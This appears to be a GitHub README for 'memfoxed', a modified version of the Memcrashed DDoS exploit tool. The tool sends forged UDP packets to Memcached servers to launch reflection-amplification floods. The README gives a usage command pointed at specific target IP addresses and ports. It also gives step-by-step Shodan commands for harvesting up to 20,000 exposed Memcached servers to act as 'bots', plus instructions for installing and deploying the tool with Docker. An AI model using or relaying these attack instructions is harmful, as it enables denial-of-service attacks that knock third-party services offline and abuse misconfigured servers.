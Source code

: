 # Memfoxed

`memfoxed` is a simplified script. Changes made:

* configuration options are passed using CLI args (rather than with interactive questions)
* supports multiple targets

Example:

```shell
$ sudo ./memfoxed.py \
    -t 109.207.14.3:53 \
    -t 193.164.146.24:23 \
    --num-packets 10 \
    --repeat 100 \
    --bots-config ./bots.txt
```

Note that `--bots-config` expects file with line-separated list of IP address of Memcached servers (e.g. see "Download Bots" section how to get one using Shodan API).

### Download Bots

To avoid slow (and rate limited) API calls to Shodan API, you can download all known memcached servers using `shodan` tool.

```shell
$ python3 -m pip install shodan
$ shodan init <KEY>
$ shodan download --limit 20000 bots.json.gz product:"Memcached" port:11211
$ gzip -d bots.json.gz
$ cat bots.json | jq '.ip_str' -r | grep -E '([0-9]{1,3}\.){3}[0-9]{1,3}' > bots.txt 
```

When running `Memcrasched.py` make sure to reply "N" for using Shadon API.

### MEMCRASHED DDOS EXPLOIT TOOL

* Author: [@037](https://twitter.com/037)

This tool allows you to send forged UDP packets to Memcached servers obtained from Shodan.io

### Prerequisites

The only thing you need installed is Python 3.x

```
apt-get install python3
```

You also require to have Scapy and Shodan modules installed
```
pip install scapy
```

```
pip install shodan
```

### Using Shodan API

This tool requires you to own an upgraded Shodan API

You may obtain one for free in [Shodan](https://shodan.io/) if you sign up using a .edu email

![alt text](https://raw.githubusercontent.com/649/Memcrashed-DDoS-Exploit/master/2.png)
![alt text](https://raw.githubusercontent.com/649/Memcrashed-DDoS-Exploit/master/1.png)
![alt text](https://raw.githubusercontent.com/649/Memcrashed-DDoS-Exploit/master/3.png)
![alt text](https://raw.githubusercontent.com/649/Memcrashed-DDoS-Exploit/master/4.png)


### Using Docker

##### [Demo](https://asciinema.org/a/v1AEEa17xzqUfyW4pEIS0JONW)

You may deploy this tool to the cloud using a light Alpine Docker image.

> Note: Make sure to explicitly enter 'y' or 'n' to the interactive prompt

```bash
git clone https://github.com/649/Memcrashed-DDoS-Exploit.git
cd Memcrashed-DDoS-Exploit
echo "SHODAN_KEY" > api.txt
docker build -t memcrashed .
docker run -it memcrashed

``` 
